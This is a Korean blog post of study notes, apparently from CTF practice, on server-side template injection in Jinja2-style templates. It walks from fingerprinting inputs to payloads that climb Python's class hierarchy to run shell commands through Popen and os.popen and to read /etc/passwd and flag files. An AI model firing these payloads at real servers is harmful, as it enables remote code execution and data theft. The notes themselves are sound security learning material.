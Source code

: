 ```yaml
---
layout: post
title: "SSTI 취약점"
date: 2020-11-06
categories: WEB_HACKING
tags: [web,웹 취약점,ssti]
---
```



## SSTI(Server-Side Template Injection) 취약점이란?
: 웹 어플리케이션에서 동적인 내용을 HTML로 출력할때, 미리 정의한 Template에 동적인 값을 넣어 출력하는 템플릿을 사용하는 경우가 있다.

```
int a;
'''
<html>
<body>
    <h1> {{a}}
</body>
</html>
'''
```

여기서 만약에 Template source에 사용자 입력이 들어간다면 악의적인 입력을 통해 개발자가 의도하지않은 기능을 수행할 수 있게 된다 즉 사용자의 입력데이터가 Template에 직접사용될 위험이 있다는 말이다. 이를 SSTI 취약점이라고 칭한다.

Template의 종류는 다양한데, 보통 jinja2, mako 를 사용하는 것같다.

이 취약점을 테스트 할 때는 다음과 같은 단계로 테스트해 볼수 있다.


1 어떤 템플릿인지 확인하기
```
{{7*7}}
{{7*'7'}}
${7*7}
```
![ssti](./SSTI.png)

2 OS라이브러리에 있는 config 추가
```
{{config.from_object('os')}}*"
```

3 현재 설정되어있는 config 확인
```
{{config}}
{{config.items()}}
```

4 root 클래스에 접근.
```
{{''.__class__.__mro__}}
```

5 상속받은 클래스 확인
```
{{''.__class__.__mro__[1].__subclasses__()}}
```

여기서 1은 4에서 나온 클래스 중 2번째 인덱스타입을 선택했기 때문에 1을 적은것. (보통 str이 0번, object가 1인데 1을 자주쓰는것같다..)

6 사용할 클래스 고르기
```
{{''.__class__.__mro__[1].__subclasses__()[400:]}}
```
몇번째인지 잘 확인한다.. 이거는 400번 클래스 부터 나온다는 의미의 명령어인데 이렇게 클래스를 골라주면 됨. 보통 Popen 클래스를 사용해서 flag 를 확인한다. 시스템 명령어도 가능한듯.



7 클래스 사용 (Payload)
```
{{''.__class__.__mro__[1]__subclasses__()[408]('ls',shell=True,stdout=-1).communicate()}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{''.__class__.mro()[0].__subclasses__()[408]('cat ./flag',shell=True,stdout=-1).communicate()[0].strip()}}
{{url_for.globals.os.popen(“cat%20flag.txt”).read()}}
```


[참고]
- SSTI 취약점 설명
https://watchout31337.tistory.com/m/177?category=904110
- payload 모음집 github:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
- Dremhack 서버사이드 강의